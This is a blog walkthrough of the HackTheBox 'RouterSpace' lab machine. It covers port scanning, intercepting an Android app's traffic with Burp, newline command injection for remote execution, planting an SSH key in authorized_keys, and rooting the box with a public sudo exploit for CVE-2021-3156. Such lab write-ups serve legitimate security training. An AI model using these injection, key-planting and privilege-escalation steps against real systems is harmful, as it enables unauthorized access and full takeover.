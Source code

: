 ```yaml
---
title: "HackTheBox Routerspace Walkthrough"
date: "2022-06-17"
categories: 
  - "htb-walkthroughs"
tags: 
  - "anbox"
  - "apk"
coverImage: "RouterSpace.png"
---
```


This was a fun box to go through, I got to play with apks for the first time.

rustscan -a 10.10.11.148 -- -A -Pn -T4 -sC -sV

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|\_    SSH-2.0-RouterSpace Packet Filtering V1
80/tcp open  http    syn-ack
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-56857
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 67
|     ETag: W/"43-fKluohJjd9lOnn7oe2xkZETZupo"
|     Date: Fri, 17 Jun 2022 16:52:04 GMT
|     Connection: close
|     Suspicious activity detected !!! {RequestID: T 0y bClQs qE }
|   GetRequest: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-10646
|     Accept-Ranges: bytes
|     Cache-Control: public, max-age=0
|     Last-Modified: Mon, 22 Nov 2021 11:33:57 GMT
|     ETag: W/"652c-17d476c9285"
|     Content-Type: text/html; charset=UTF-8
|     Content-Length: 25900
|     Date: Fri, 17 Jun 2022 16:52:03 GMT
|     Connection: close
|     <!doctype html>
|     <html class="no-js" lang="zxx">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>RouterSpace</title>
|     <meta name="description" content="">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/owl.carousel.min.css">
|     <link rel="stylesheet" href="css/magnific-popup.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/themify-icons.css">
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-33683
|     Allow: GET,HEAD,POST
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 13
|     ETag: W/"d-bMedpZYGrVt1nR4x+qdNZ2GqyRo"
|     Date: Fri, 17 Jun 2022 16:52:04 GMT
|     Connection: close
|     GET,HEAD,POST
|   RTSPRequest, X11Probe: 
|     HTTP/1.1 400 Bad Request
|\_    Connection: close
|\_http-favicon: Unknown favicon MD5: B4398972638205B6E794C622C536410B
| http-methods: 
|\_  Supported Methods: GET HEAD POST OPTIONS
|\_http-title: RouterSpace
|\_http-trane-info: Problem with XML parsing of /evox/about
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port22-TCP:V=7.80%I=7%D=6/17%Time=62ACB133%P=x86\_64-alpine-linux-musl%r
SF:(NULL,29,"SSH-2\\.0-RouterSpace\\x20Packet\\x20Filtering\\x20V1\\r\\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port80-TCP:V=7.80%I=7%D=6/17%Time=62ACB134%P=x86\_64-alpine-linux-musl%r
SF:(GetRequest,312C,"HTTP/1\\.1\\x20200\\x20OK\\r\\nX-Powered-By:\\x20RouterSpac
SF:e\\r\\nX-Cdn:\\x20RouterSpace-10646\\r\\nAccept-Ranges:\\x20bytes\\r\\nCache-Co
SF:ntrol:\\x20public,\\x20max-age=0\\r\\nLast-Modified:\\x20Mon,\\x2022\\x20Nov\\x
SF:202021\\x2011:33:57\\x20GMT\\r\\nETag:\\x20W/\\"652c-17d476c9285\\"\\r\\nContent
SF:-Type:\\x20text/html;\\x20charset=UTF-8\\r\\nContent-Length:\\x2025900\\r\\nDa
SF:te:\\x20Fri,\\x2017\\x20Jun\\x202022\\x2016:52:03\\x20GMT\\r\\nConnection:\\x20c
SF:lose\\r\\n\\r\\n<!doctype\\x20html>\\n<html\\x20class=\\"no-js\\"\\x20lang=\\"zxx\\
SF:">\\n<head>\\n\\x20\\x20\\x20\\x20<meta\\x20charset=\\"utf-8\\">\\n\\x20\\x20\\x20\\x
SF:20<meta\\x20http-equiv=\\"x-ua-compatible\\"\\x20content=\\"ie=edge\\">\\n\\x20
SF:\\x20\\x20\\x20<title>RouterSpace</title>\\n\\x20\\x20\\x20\\x20<meta\\x20name=\\
SF:"description\\"\\x20content=\\"\\">\\n\\x20\\x20\\x20\\x20<meta\\x20name=\\"viewpo
SF:rt\\"\\x20content=\\"width=device-width,\\x20initial-scale=1\\">\\n\\n\\x20\\x20
SF:\\x20\\x20<link\\x20rel=\\"stylesheet\\"\\x20href=\\"css/bootstrap\\.min\\.css\\"
SF:>\\n\\x20\\x20\\x20\\x20<link\\x20rel=\\"stylesheet\\"\\x20href=\\"css/owl\\.carou
SF:sel\\.min\\.css\\">\\n\\x20\\x20\\x20\\x20<link\\x20rel=\\"stylesheet\\"\\x20href=\\
SF:"css/magnific-popup\\.css\\">\\n\\x20\\x20\\x20\\x20<link\\x20rel=\\"stylesheet\\
SF:"\\x20href=\\"css/font-awesome\\.min\\.css\\">\\n\\x20\\x20\\x20\\x20<link\\x20rel
SF:=\\"stylesheet\\"\\x20href=\\"css/themify-icons\\.css\\">\\n\\x20")%r(HTTPOptio
SF:ns,108,"HTTP/1\\.1\\x20200\\x20OK\\r\\nX-Powered-By:\\x20RouterSpace\\r\\nX-Cdn
SF::\\x20RouterSpace-33683\\r\\nAllow:\\x20GET,HEAD,POST\\r\\nContent-Type:\\x20t
SF:ext/html;\\x20charset=utf-8\\r\\nContent-Length:\\x2013\\r\\nETag:\\x20W/\\"d-b
SF:MedpZYGrVt1nR4x\\+qdNZ2GqyRo\\"\\r\\nDate:\\x20Fri,\\x2017\\x20Jun\\x202022\\x20
SF:16:52:04\\x20GMT\\r\\nConnection:\\x20close\\r\\n\\r\\nGET,HEAD,POST")%r(RTSPRe
SF:quest,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nConnection:\\x20close\\r\\
SF:n\\r\\n")%r(X11Probe,2F,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\nConnection
SF::\\x20close\\r\\n\\r\\n")%r(FourOhFourRequest,129,"HTTP/1\\.1\\x20200\\x20OK\\r\\
SF:nX-Powered-By:\\x20RouterSpace\\r\\nX-Cdn:\\x20RouterSpace-56857\\r\\nContent
SF:-Type:\\x20text/html;\\x20charset=utf-8\\r\\nContent-Length:\\x2067\\r\\nETag:
SF:\\x20W/\\"43-fKluohJjd9lOnn7oe2xkZETZupo\\"\\r\\nDate:\\x20Fri,\\x2017\\x20Jun\\
SF:x202022\\x2016:52:04\\x20GMT\\r\\nConnection:\\x20close\\r\\n\\r\\nSuspicious\\x2
SF:0activity\\x20detected\\x20!!!\\x20{RequestID:\\x20\\x20T\\x200y\\x20\\x20bClQs
SF:\\x20\\x20\\x20qE\\x20\\x20\\x20}\\n");

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 16:52
Completed NSE at 16:52, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 16:52
Completed NSE at 16:52, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 16:52
Completed NSE at 16:52, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.67 seconds

We've only got 2 ports open.

I tried to ssh to see what I get.

[![](images/image-21.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-21.png)

As expected, can't login but now I know that I need to find a publickey. Passwords are disabled.

Next lets visit the website.

[![](images/image-22-950x1024.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-22.png)

Nothing interesting came back from crawling the webpage. The only thing we can do is download an .apk file.

Now you will need to either install android studio or anbox to run the apk.

I chose to install anbox via this tutorial. [https://chennylmf.medium.com/how-to-install-anbox-on-kali-linux-2022-1-40d40cb77d9d](https://chennylmf.medium.com/how-to-install-anbox-on-kali-linux-2022-1-40d40cb77d9d)

Launch anbox and run routerspace.apk.

[![](images/image-23.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-23.png)

I used wireshark on interface anbox0 to see what the app is trying to do. I figured it was trying to connect to routerspace.htb. So I added the hostname to /etc/hosts.

[![](images/image-24.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-24.png)

Now that the router is connecting to the server. We can try to intercept the traffic using Burp.

[![](images/image-25.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-25.png)

First, we need to set a new proxy so burp can listen on.

adb shell settings put global http\_proxy 10.10.14.28:8001

Now we can configure burp.

[![](images/image-26-1024x318.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-26.png)

[![](images/image-27-1024x377.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-27.png)

Send to repeater so we can try to remotely execute code on the machine.

[![](images/image-28-1024x807.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-28.png)

Whatever we type is just being returned. Adding \\n before the command and we have RCE!

[![](images/image-29-1024x788.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-29.png)

We are unable to get a reverse shell going because iptables seems to be blocking all outgoing traffic. But we know we need to get a ssh key to login. /home/paul/.ssh/ seems to be empty. We'll have to generate a ssh key on our kali machine and to send over the public key. Then we can simply echo the rsa key into .ssh.

Kali Machine:

ssh-keygen

[![](images/image-30.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-30.png)

Now copy the public rsa key from .ssh and pass the code in Burp repeater.

\\necho '\[public rsa key\]' >> /home/paul/.ssh/authorized\_keys

[![](images/image-31-1024x784.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-31.png)

Key has been successfully added.

Lets SSH in.

ssh -i path\_to\_id\_rsa paul@10.10.11.148

[![](images/image-32.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-32.png)

We got in and found the user.txt flag. Lets use linpeas.sh to priv esc.

Since Iptables is blocking us from using wget or curl. We know we can ssh, so we'll use scp to transfer files over using ssh.

scp -i id\_rsa linpeas.sh paul@10.10.11.148:.

Now run linpeas.sh on victim machine.

Next part is easy, we can see sudo is vulnerable.

[![](images/image-33-1024x84.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-33.png)

A quick google gets us this [https://github.com/](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit)[mohinparamasivam](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit)[/Sudo-1.8.31-Root-Exploit](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit)

CVE-2021-3156.

scp the folder using -r. Now just make and run the exploit.

make
./exploit

[![](images/image-34.png)](http://localhost/wordpress/wp-content/uploads/2022/06/image-34.png)

That was easy, we've escalated privilege to root!
